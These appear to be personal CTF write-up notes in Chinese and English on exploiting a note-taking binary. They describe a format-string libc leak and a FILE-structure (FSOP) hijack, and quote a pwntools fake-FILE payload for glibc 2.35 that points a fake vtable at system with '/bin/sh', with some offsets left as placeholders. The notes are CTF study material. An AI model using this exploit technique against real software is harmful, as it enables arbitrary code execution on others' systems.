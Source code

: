 ```

```

so 只要 create author with %lx then print 就能看到了

## 3.2 what is FSOP
重新 温习一下啊
好像是 用 FILE STRUCTURE  做一个 fake FILE 然后inject 
触发得点是 fwrite fclose

## 3.3 where is the inject point ?
这里得情况是
```
fp = fopen("notes.md", "w+"); // fp 是全局变量
...
v0 = fp;
fwrite(s, 1u, v1, v0);
...
fclose(fp);
```
GPT 给的思路 就是
- **leak libc**（如通过 `print_note` 泄露 libc 指针）
- **malloc & edit note content → 写 fake FILE 结构**
- **构造 fake vtable → 将 _IO_overflow = system**
- **edit `fp` 的值 → 改为 fake FILE 地址**
- **调用 save_notes() → fwrite → 成功劫持 flow**

然后我找了 github
fake FILE STRUCTURE 有一个自己的format
https://github.com/uclaacm/lactf-archive/blob/5796d074da5314c70e58b30e93c9c75e9e7b5163/2025/pwn/library/solve.py#L113
```
2.35 GLIBC

fake_vtable = libc.sym._IO_wfile_jumps-0x18 <- 0x18 fixed
stdout = libc.sym._IO_2_1_stdout_
stdout_lock = libc.address+0x???????? <- 要找 offset

gadget = libc.address + 0x???????? <- 要找 offset
fs = FileStructure(0)
fs.flags = 0x3b01010101010101 <- 0x3b01010101010101 fixed
fs._IO_read_end = libc.sym.system
fs._IO_save_base = gadget
fs._IO_write_end = u64(b"/bin/sh\x00")
fs._lock = stdout_lock
fs._codecvt = stdout+0xb8 <- 0xb8 fixed
fs._wide_data = libc.sym._IO_wide_data_1 <- 只要是空都可以 heap+0x1000
fs.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable) <- fixed

save(bytes(fs))
```
